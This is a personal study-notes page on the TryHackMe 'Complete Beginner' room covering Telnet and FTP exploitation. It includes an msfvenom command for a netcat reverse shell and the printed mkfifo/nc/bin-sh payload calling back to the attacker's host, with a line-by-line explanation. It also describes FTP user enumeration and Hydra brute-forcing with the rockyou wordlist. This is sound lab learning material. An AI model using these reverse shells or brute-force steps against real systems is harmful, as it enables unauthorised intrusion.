 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks
* **date**:: 2021-10-02

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren't literal - they're *actually* the local IP address of my machine on TryHackMe's VPN and my chosen port. Neither of which should be particularly sensitive, but I'm still not going to post it on the internet!)

What's going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat's STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The active vs. passive FTP distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.

Passive FTP: The server opens a port which the client connects to when establishing the data channel.

* [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap's -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

* [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali's rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn't previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

* [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
* [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
